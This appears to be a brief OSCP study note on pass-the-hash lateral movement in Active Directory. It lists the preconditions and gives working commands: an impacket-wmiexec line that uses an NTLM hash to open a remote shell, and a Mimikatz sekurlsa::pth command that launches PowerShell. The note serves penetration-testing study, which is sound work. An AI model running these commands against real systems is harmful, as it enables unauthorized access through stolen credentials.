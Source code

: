 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/o. Active Directory Movement/3. Pass-the-Hash/"}
---
```


----------
### Theory:
- Requires:
	- User that authenticates **often** needs to be part of Administrator local group
	- SMB connection through firewall (commonly port 445)
	- Windows File and Printer Sharing enabled
	- ADMIN$ share available

---------
### Remote PtH Shell with Impacket:
In Kali:
```
/usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
```
--------------------
### PtH with Mimikatz:
```
sekurlsa::pth /user:Administrator /domain:. /ntlm:… /run:”powershell”
```

